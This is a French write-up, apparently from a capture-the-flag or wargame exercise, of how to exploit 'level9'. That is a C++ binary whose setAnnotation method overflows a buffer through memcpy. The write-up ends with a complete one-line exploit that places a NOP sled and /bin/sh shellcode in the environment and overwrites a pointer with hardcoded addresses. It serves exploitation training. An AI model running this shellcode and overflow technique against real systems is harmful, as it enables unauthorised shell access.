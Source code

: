 La petite difference avec ce programme des autres, c'est qu'il a été fait en c++.<br/>
On peut voir dans ghidra l'initialisation de la class `N` deux fois et la fonction `setAnnotation` qui va nous permettre de faire un overflow via `memcpy`.<br/>
On va donc utiliser notre shellcode du level2 et le mettre dans l'argument du programme.

*Note: memcpy utilise strlen sur le paramètre, faire attention à ne pas mettre de `\x00` dans le shellcode.*

![ghidra main, setAnnotation method in N Class](./resources/ghidra_level9.png)

On va essayer de faire un `NOP Slide`, ce qui est de remplire un bout de la stack avec des `NOP` et suivi de notre shellcode directement dans l'environnement. Ainsi, on va pouvoir overflow la stack et tomber sur notre shell.

Le `env -i` va vider notre env et mettre uniquement notre payload. Le `payload` va être notre `NOP Slide` suivi de notre shellcode.<br/>
Ensuite on va lancer le programme avec comme argument l'adresse de notre `NOP Slide` suivi de `B` pour pouvoir overflow la variable de taille 108 octets et ensuite l'adresse de retour de la fonction `main`.
```
$ env -i payload=`python -c 'print "\x90"*1000+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'` ./level9 `python -c 'print "\x63\xfc\xff\xbf"+"B"*104+"\x0c\xa0\x04\x08"'`
```
